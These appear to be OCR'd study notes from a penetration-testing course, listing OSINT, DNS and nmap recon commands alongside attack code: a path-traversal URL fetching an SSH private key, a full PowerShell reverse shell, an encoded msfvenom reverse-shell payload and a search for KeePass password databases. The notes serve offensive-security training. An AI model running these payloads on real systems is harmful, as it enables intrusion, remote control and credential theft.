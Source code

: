 Passive OSINT
1. whois

2. robots.txt

3. google dork 

ext:php, ext:xml, and ext:py

https://searchdns.netcraft.com

4. Github Dork

- sw gitleak

filename:users


5. Shodan

6. SSL/TLS Headers



Actove OSINT

cat list.txt
www
ftp
mail
owa
proxy
router



for ip in $(cat list.txt); do host $ip.megacorpone.com; done


for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not
found"



UDP scan
sudo nmap -sU 192.168.50.149

dnsrecon -d megacorpone.com -t std


pingsweep 

nmap -v -sn 192.168.50.1-253 -oG ping-sweep.txt


powershell tcp scan
1..1024 | % {echo ((New-Object
Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null



install telnet client

dism /online /Enable-Feature /FeatureName:TelnetClient




http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offs
ec/.ssh/id_rsa


powershell reverse

$Text = '$client = New-Object
System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-
String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)



msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443
EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"


Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction
SilentlyContinue